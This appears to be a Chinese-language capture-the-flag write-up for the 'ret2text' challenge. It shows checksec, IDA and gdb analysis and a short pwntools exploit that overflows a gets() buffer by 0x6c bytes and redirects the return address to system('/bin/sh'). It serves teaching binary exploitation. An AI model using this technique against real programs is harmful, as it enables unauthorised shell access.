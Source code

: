 1. `checksec ret2text`  
   
   ![p1](./assets/checksec.png)  <center>图1</center>

2. IDA
   1. main  
   ![p2](./assets/IDA1.png)  
   <center>图2</center>  

   2. secure  
   ![p3](./assets/IDA2.png)  
   <center>图3</center>
   
3. 思路  
   没有开启 Stack canary, main 函数中有 gets 函数, secure 函数中有 `system("/bin/sh");`. 因此, 获取 shell 的思路就是: 利用 gets 函数来做栈溢出, 将主函数的返回地址修改到 `system("/bin/sh");` 那里.

4. 确定偏移  
   ![p4](./assets/esp.png) <center>图4</center>  
   字符串 s 的偏移地址基于栈顶指针(esp), 可以借助 gdb 查看调用 gets 函数之前寄存器 esp, ebp 的值, 计算二者的差, 将基于 esp 的偏移转化为基于 ebp 的偏移: `gdb ./ret2text` -> `b *0x080486ae`(<font color=#FF0000>注意: 这里要将断点下在 call 处</font>) -> `r`  
   ![p5](./assets/gdb.png)  
   <center>图5</center>  

   可以看到 `ESP = 0xffffcf90, EBP = 0xffffd018, ESP = EBP - 0x88`.  
   由图 4 可知: 字符串 s 的基于 esp 的偏移为 `esp + 80h + s`, 查看 main 函数的汇编代码可知 `s = -64h`. 则 s 此时基于 ebp 的偏移为 `ebp - 88h + 80h - 64h = ebp - 6ch`.  
   接下来查看 `system("/bin/sh");` 的地址:  
   ![p6](./assets/binsh.png)  
   <center>图6</center>  
   
5. exp
   ```python
   from pwn import *

   sh = process('./ret2text')
   payload = 'a' * 0x6c + 'bbbb' + p32(0x0804863a)

   sh.sendline(payload)
   sh.interactive()
   ```

6. 结果  
   ![p7](./assets/PWN.png)  
   <center>图7</center>  